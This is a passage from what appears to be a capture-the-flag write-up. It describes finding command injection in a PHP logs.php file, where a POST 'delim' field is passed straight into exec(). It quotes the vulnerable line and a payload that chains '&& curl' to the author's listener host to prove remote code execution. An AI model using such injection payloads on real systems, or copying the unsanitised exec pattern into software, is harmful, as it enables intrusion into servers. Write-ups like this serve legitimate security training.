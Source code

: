 Lets download and examine the source code. We get a bunch of `php` files.

![](./images/php_list.png)

After examining some of the source code, i came along something really, really bad in the `logs.php` file. The parsing is done by running a python script that takes an argument the delimiter we supply from a `POST` request. The thing is, that we control the contents of the request and by extension the command that will be executed. As a result we have RCE (Remote Code Execution). 

```php
// logs.php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

If we intercept the request and change the data inside the  `delim` field we can execute additional commands.

### 2.) Cracking the Perimeter

Proving we have RCE:
Intercepting the Submit request and using Repeater to do multiple requests, change the POST data `delim=comma+%26%26+curl+http%3a//10.10.14.2%3a8888`. When the code in `logs.php` executes this will trigger a GET request on my machine.
A `nc` listener was already running on my machine on port 8888: 

![](./images/Pasted%20image%2020211224033548.png)
